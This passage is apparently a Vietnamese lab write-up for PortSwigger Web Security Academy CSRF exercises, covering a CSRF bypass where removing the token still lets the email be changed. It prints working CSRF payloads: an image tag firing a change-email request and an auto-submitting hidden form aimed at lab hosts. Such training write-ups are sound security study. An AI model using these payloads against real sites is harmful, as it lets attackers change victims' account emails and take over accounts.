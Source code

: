 - Ở đây mình có thể đổi thành công email mà không cần đến giá trị của biến csrf, nên em sẽ tấn công theo cách này

mình tìm payload trên payloadallthethings

![image](https://hackmd.io/_uploads/HJvbpi4q6.png)

- Bây giờ ta chỉ cần tạo payload sau:
  `<img src="https://0a4d00f104d3219582c666d30098008b.web-security-academy.net/my-account/change-email?email=abcde%40a.a">`
  và gửi vào exploit-server. Khi nạn nhân load trang exploit này, ảnh <img> trên sẽ được load với source chính là GET request để update email.
- Giờ ta sẽ đưa vào exploit server rồi đưa vào phần body, sau đó store rồi delivery to victim là có thể solve được lab rồi:

![image](https://hackmd.io/_uploads/Hyq1XiEc6.png)

- khi nạn nhân click vào đường link chúng ta gửi thì 1 request POST sẽ được gửi từ server exploit của chúng ta kèm theo session của người dùng vẫn còn hiệu lực đến server web hiện tại và nó sẽ lầm tưởng là chính victim đang thực hiện hành động đó và chấp nhận

![image](https://hackmd.io/_uploads/SyQl7oVqT.png)

## 3. Lab: CSRF where token validation depends on token being present

link: https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-validation-depends-on-token-being-present

### Đề bài

![image](https://hackmd.io/_uploads/HymJViN5T.png)

### Phân tích

- Trang web này có chức năng chỉnh sửa email dính lỗi CSRF, tuy có truyền vào tham số csrf, nhưng trang web lại check vào phần session, khi đấy ta có thể xóa luôn tham số csrf mà trang web vẫn có thể thực hiện được việc đổi email:

![image](https://hackmd.io/_uploads/B1ubHiE9T.png)

### Khai thác

- mình dùng lại payload của bài 1

```htmlembedded=
<html>
  <body>
    <form action="https://0aeb00ee031dceb481ff2022007e003c.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="abc@a.a" />
    </form>
    <script>
        document.forms[0].submit();
    </script>
  </body>
</html>
```
